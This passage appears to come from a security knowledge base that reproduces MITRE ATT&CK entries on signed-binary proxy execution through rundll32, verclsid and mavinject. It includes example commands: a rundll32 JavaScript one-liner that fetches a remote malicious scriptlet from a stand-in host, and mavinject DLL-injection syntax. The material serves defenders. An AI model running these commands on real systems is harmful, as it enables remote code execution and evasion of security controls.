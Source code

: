 Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: `rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"` This behavior has been seen used by malware such as Poweliks. [2](https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command `rundll32.exe ExampleDLL.dll, ExampleFunction`, rundll32.exe would first attempt to execute `ExampleFunctionW`, or failing that `ExampleFunctionA`, before loading `ExampleFunction`). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending `W` and/or `A` to harmless ones.[3](https://www.attackify.com/blog/rundll32_execution_order/)[4](https://github.com/gtworek/PSBits/tree/master/NoRunDll)

#### Verclsid - T1218.012
[more on T1218.012](https://attack.mitre.org/techniques/T1218/012)

Adversaries may abuse verclsid.exe to proxy execution of malicious code. Verclsid.exe is known as the Extension CLSID Verification Host and is responsible for verifying each shell extension before they are used by Windows Explorer or the Windows Shell.[1](https://www.winosbite.com/verclsid-exe/ )

Adversaries may abuse verclsid.exe to execute malicious payloads. This may be achieved by running `verclsid.exe /S /C {{CLSID}}`, where the file is referenced by a Class ID (CLSID), a unique identification number used to identify COM objects. COM payloads executed by verclsid.exe may be able to perform various malicious actions, such as loading and executing COM scriptlets (SCT) from remote servers (similar to [[T1218_Signed Binary Proxy Execution#Regsvr32 - T1218 010|Regsvr32 (T1218.010)]]). Since it is signed and native on Windows systems, proxying execution via verclsid.exe may bypass application control solutions that do not account for its potential abuse.[2](https://lolbas-project.github.io/lolbas/Binaries/Verclsid/)[3](https://redcanary.com/blog/verclsid-exe-threat-detection/)[4](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/)[5](https://gist.github.com/NickTyrer/0598b60112eaafe6d07789f7964290d5)

#### Mavinject - T1218.013
[more on T1218.013](https://attack.mitre.org/techniques/T1218/013)

Adversaries may abuse mavinject.exe to proxy execution of malicious code. Mavinject.exe is the Microsoft Application Virtualization Injector, a Windows utility that can inject code into external processes as part of Microsoft Application Virtualization (App-V).[1](https://lolbas-project.github.io/lolbas/Binaries/Mavinject/)

Adversaries may abuse mavinject.exe to inject malicious DLLs into running processes (i.e. [[T1055_Process Injection#Dynamic-link Library Injection - T1055 001|Dynamic-link Library Injection (T1055.001)]]), allowing for arbitrary code execution (ex. `C:\Windows\system32\mavinject.exe PID /INJECTRUNNING PATH_DLL`).[2](https://cybersecurity.att.com/blogs/labs-research/lazarus-campaign-ttps-and-evolution)[3](https://reaqta.com/2017/12/mavinject-microsoft-injector/) Since mavinject.exe is digitally signed by Microsoft, proxying execution via this method may evade detection by security products because the execution is masked under a legitimate process.

In addition to [[T1055_Process Injection#Dynamic-link Library Injection - T1055 001|Dynamic-link Library Injection (T1055.001)]], Mavinject.exe can also be abused to perform import descriptor injection via its `/HMODULE` command-line parameter (ex. `mavinject.exe PID /HMODULE=BASE_ADDRESS PATH_DLL ORDINAL_NUMBER`). This command would inject an import table entry consisting of the specified DLL into the module at the given base address.[4](https://posts.specterops.io/mavinject-exe-functionality-deconstructed-c29ab2cf5c0e)
